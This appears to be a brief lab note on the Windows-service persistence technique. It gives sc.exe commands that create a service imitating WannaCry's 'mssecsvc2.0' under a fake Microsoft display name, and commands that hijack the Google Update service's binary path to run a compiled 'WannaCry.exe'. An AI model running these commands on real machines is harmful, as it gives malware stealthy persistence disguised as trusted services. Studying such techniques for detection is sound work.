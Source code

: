 # Create or Modify System Process: Windows Service

- Code and compile program `Windows Service Application` - WannaCry.exe

- Create Service (Administrator: Command Prompt)
  - Create Service follow case attack WannaCry.
  ```powershell
  sc create "mssecsvc2.0" DisplayName = "Microsoft Security Center (2.0) Service" binPath = "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start = "auto"
  sc start mssecsvc2.0
  sc stop mssecsvc2.0
  sc delete mssecsvc2.0
  ```

- Modify Service (Administrator: Command Prompt)
  * Modify google update service.
  ```powershell 
  sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
  sc start gupdate
  ```
  * Restore default path google update.
  ```powershell 
  sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1 
  ```
